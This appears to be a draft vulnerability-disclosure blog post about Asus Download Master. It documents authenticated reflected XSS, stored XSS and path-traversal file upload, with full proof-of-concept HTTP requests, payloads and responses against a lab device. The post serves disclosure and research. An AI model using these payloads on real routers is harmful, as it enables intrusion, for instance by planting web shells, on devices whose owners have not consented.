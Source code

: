 ```yaml
---
title: "Asus Download Master - Part 1: XSS, Uploads"
date: 2024-04-16T17:26:23Z
draft: true
tags: ["notes research cve asus"]
---
```


## Asus, the gift that keeps on giving (cves)

something something a cve horse in the mouth

Remember back in the early 2000s, when download managers were all the rage? Well, turns out in 2024 Asus *still* has a product, aptly named "Download Master". This "app" installs to a USB device on your router. As it turns out, it's actually a full on linux environment running `busybox`... that's installed onto your USB stick, lol. 

DM, as I'll refer to it henceforth, was *riddled* with issues-- classic low-hanging bugs that you don't expect to see outside of a CTF. Since this isn't natively on the routers it's not as big a deal, and Shodan reports only around ~2.9k devices worldwide, and Censys about the same:

![alt text](images/shodan-dm.png)

In my cursory prodding, I came across the following bug types, note that they are ALL authenticated:

1. Reflected XSS
2. Stored XSS
3. Arbitrary File Uploads / Path Traversal
4. Command Injections
5. Buffer Overflows

For this post I'll review 1 - 3, and a part two will contain the fun ones.

## Reflected XSS - CVE-

Endpoint: `/check.asp`

The `directurl` POST body parameter is not sanitized prior to being reflected within application responses, resulting in the ability to perform cross-site scripting attacks.

Payload: `"-alert("XSS")-"`

**Request:**
```html
POST /check.asp HTTP/1.1
Host: 192.168.1.2:8081
Content-Length: 128
Origin: http://192.168.1.2:8081
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.2:8081/check.asp
Cookie: hwaddr=3C:7C:3F:53:C1:00; apps_last=downloadmaster; clickedItem_tab=0; asus_token=ERc5RMR5mV5iDo6sZjtHhvTdfjuVMyo
Connection: close

flag=&login_username=[REDACTED]&login_passwd=[REDACTED]&foilautofill=&directurl=%2Fdownloadmaster%2Ftask.asp"-alert("XSS")-"
```

**Response:**
```html
HTTP/1.1 200 OK
Set-Cookie: AuthByPasswd=asus_app_token:9ecafe2c4909d1b93bfa474fe119512f; path=/downloadmaster/; httponly;
Cache-Control: no-store
Cache-Control: no-cache
Content-Type: text/html
Content-Length: 886
Connection: close
Date: Thu, 27 Jul 2023 22:58:34 GMT
Server: lighttpd/1.4.39

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<html xmlns:v>
<head>
<meta http-equiv="X-UA-Compatible" content="IE=EmulateIE8" />
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<meta http-equiv="Expires" content="-1" />
<meta HTTP-EQUIV="Cache-Control" CONTENT="no-cache">
<meta http-equiv="Pragma" content="no-cache" />
<title>Login Jump</title>
<script type="text/javascript" src="jquery.js"></script>
</head>
<body>
<script>
var httpTag 		= 'https:' == document.location.protocol ? false : true;
var directurl_host 	= document.location.host;
var url 			="/downloadmaster/task.asp"-alert("XSS")-"";
if(httpTag)
self.location = "http://" +directurl_host	+ url;
else
self.location = "https://" +directurl_host	+ url;
</script>
</body>
</html>
```

**Screenshot:**
![alt text](images/reflected-xss.png)

## Stored XSS - CVE-

Endpoint: `/downloadmaster/dm_apply.cgi`

The `usb_dm_url` URL parameter is not sanitized prior to it being stored as a download task. This value is the reflected within the `/downloadmaster/task.asp` page unsafely, resulting in the ability to perform stored-cross site scripting attacks.

**Request:**
```html
GET /downloadmaster/dm_apply.cgi?action_mode=DM_ADD&download_type=5&again=no&usb_dm_url=%3cscript%3ealert('stored-xss')%3c/script%3e HTTP/1.1
Host: 192.168.1.2:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Referer: http://192.168.1.2:8081/downloadmaster/task.asp
Cookie: AuthByPasswd=asus_app_token:687b0a83a016a94f8a06ba793349d613; 
```

**Response:**
```html
HTTP/1.1 200 OK
ContentType: text/html
Cache-Control: private,max-age=0;
Connection: close
Date: Thu, 27 Jul 2023 23:09:48 GMT
Server: lighttpd/1.4.39
Content-Length: 10

ACK_SUCESS
```

A request to `dm_print_status.cgi` (sent as part of loading `task.asp`) returns the stored xss:

**Request:**
```
GET /downloadmaster/dm_print_status.cgi?action_mode=All HTTP/1.1
Host: 192.168.1.2:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Cookie: AuthByPasswd=asus_app_token:687b0a83a016a94f8a06ba793349d613;
```

**Response:**
```
HTTP/1.1 200 OK
ContentType: text/html
Cache-Control: private,max-age=0;
Date: Thu, 27 Jul 2023 23:13:37 GMT
Server: lighttpd/1.4.39
Content-Length: 113

["1","<script>alert('stored-xss')</script>","0.0","","notbegin","OTHER","","0 KBps","0 KBps","0","","0.0000",""]

```

Screenshot:
![alt text](images/stored-xss.png)

## Arbitrary Uploads / Path Traversal - CVE-

Endpoint: `/downloadmaster/dm_uploadbt.cgi`

It is possible to upload arbitrary files to arbitrary locations by manipulating parameter values in file uploads sent to the `dm_uploadbt.cgi` endpoint. It is possible to include path traversal characters within the `filename` parameter of POST requests made to this endpoint and cause the file being uploaded to be stored anywhere, overwriting existing files.

Additionally, no restrictions on file contents were observed, making it possible to upload arbitrary files such as malware or web shells.

**Request:**
```html
POST /downloadmaster/dm_uploadbt.cgi HTTP/1.1
Host: 192.168.1.2:8081
Content-Length: 273
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBfjAbnA3mHUXAZ6q
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Cookie: AuthByPasswd=asus_app_token:abf4c1e97f3ad73ff53c25399b8f8c42;

------WebKitFormBoundaryBfjAbnA3mHUXAZ6q
Content-Disposition: form-data; name="filename"; filename="../../asusware.arm/etc/downloadmaster/downloadmaster/test.asp"
Content-Type: application/x-bittorrent

hello from n0rthw4rd
------WebKitFormBoundaryBfjAbnA3mHUXAZ6q--
```

**Response:**
```html
HTTP/1.1 200 OK
ContentType: text/html
Cache-Control: private,max-age=0;
Date: Tue, 25 Jul 2023 14:44:35 GMT
Server: lighttpd/1.4.39
Content-Length: 73

<script>parent.hideLoading();parent.response_dm_add("ACK_FAIL");</script>
```

Although the application's response indicates the request was not successful, navigating to the `/downloadmaster/test.asp` URI returns the uploaded file. This can be additionally validated by connecting to the device via SSH and validating the file's presence.

![alt text](images/arb-uploads.png)